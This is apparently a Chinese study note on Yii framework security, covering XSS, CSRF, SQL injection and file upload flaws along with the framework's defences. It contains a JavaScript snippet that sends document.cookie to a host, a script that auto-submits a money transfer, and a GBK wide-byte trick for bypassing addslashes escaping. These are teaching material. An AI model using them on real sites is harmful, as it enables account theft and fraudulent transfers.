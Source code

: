 ```yaml
---
title: Yii 框架之安全篇
date: 2016-10-29 21:05:35
tags: Yii
category: PHP
---
```



## XSS 攻击和防范之存储

XSS 全称

XSS 概念

XSS 是一种经常出现在 Web 应用中的计算机安全漏洞，它允许恶意 Web 用户将代码植入到
提供给其它用户使用的页面中，从而对用户进行攻击

### 如何使用 XSS 攻击盗取用户账号
```
var cookie = document.cookie;
window.location.href = "http://127.0.0.1/index.php?cookie="+cookie;
```

- 问题如下：document.cookie 获取得到的 cookie 是什么样的
- index.php 是如何处理 cookie 值的
- 有了 cookie 怎么就能进行盗取账号的

httponly 阻止 js 读取 cookie

哪一段 js 代码能够自动转账
```
document.getElementById('ipt-search-key').value='withyz@xx.com';
document.getElementById('amount').value='100';
document.getElementById('reason').value='劫富济贫';
document.getElementsByClassName('ui-button-text')[0].click();
```
如何把 js 注入到转账页面中


## XSS 攻击和防范之反射

现代现浏览器(chrome)对于反射型XSS有一定防护
手动关闭：\Yii::$app->response->headers->add('X-XSS-Protection', '0');

HTML 实体编码
URL 编码

## XSS 攻击和防范之蠕虫

### Yii 如何防范 XSS

转码防范
\yii\helpers\Html::encode($script);

过滤防范
\yii\helpers\HtmlPurifier::process($js);

## CSRF 攻击和防范

跨站请求伪造

get型的crtf攻击
构造url, 诱使用户点击

透过例子能够看出，攻击者并不能通过CSRF攻击来直接获取用户的账户控制权，也不能直接窃取用户的任何信息。他们能做到的，是欺骗用户浏览器，让其以用户的名义执行操作。

yii 框架 csrf token 验证过程

检查Referer字段
HTTP头中有一个Referer字段，这个字段用以标明请求来源于哪个地址。在处理敏感数据请求时，通常来说，Referer字段应和请求的地址位于同一域名下。以上文银行操作为例，Referer字段地址通常应该是转账按钮所在的网页地址，应该也位于www.examplebank.com之下。而如果是CSRF攻击传来的请求，Referer字段会是包含恶意网址的地址，不会位于www.examplebank.com之下，这时候服务器就能识别出恶意的访问。
这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的Referer字段。虽然http协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其Referer字段的可能。
添加校验token
由于CSRF的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求在访问敏感数据请求时，要求用户浏览器提供不保存在cookie中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法再执行CSRF攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求时，这个伪乱数也一并提交上去以供校验。正常的访问时，客户端浏览器能够正确得到并传回这个伪乱数，而通过CSRF传来的欺骗性攻击中，攻击者无从事先得知这个伪乱数的值，服务器端就会因为校验token的值为空或者错误，拒绝这个可疑请求。


## SQL 注入和防范

addslashes() 转义函数 防范 SQL 注入

Sql注入：将要执行的sql语句采用拼接的方式组装时，就sql注入的可能；
原本要查询的字符串在拼接后发生发“越狱”，部分字符串被数据库识别成可执行语句，
导致意外的操作和查询结果
防范：1，屏蔽关键字和敏感词，有影响业务逻辑的可能；
2， 对传入变量转义，避免变量的内容越狱

绕过转义：
char(0xdf)/',在utf-8下会变成β/',
而在gbk下由于汉字是2个字节组成；在数据中将变成 運',单引号逃过了被转义

使用PDO统一数据库接口，可以无痛切换；
使用占位符防范SQL注入


## 文件上传漏洞

文件上传漏洞
如果后台对文件上传审查不严，导致php代码上传后被执行，可进行遍历文件等操作使源码泄露

用 fiddler 可以拦截请求,然后修改请求的内容,比如图片中的文件名,修改成如上形式后,会生成一个php文件,然后在上传后的目录执行php文件会造成危害

保存上传过来的文件名的时候不要用用户本来的名称,容易在中途被非法修改,从而变成.php这些可执行文件,造成损害

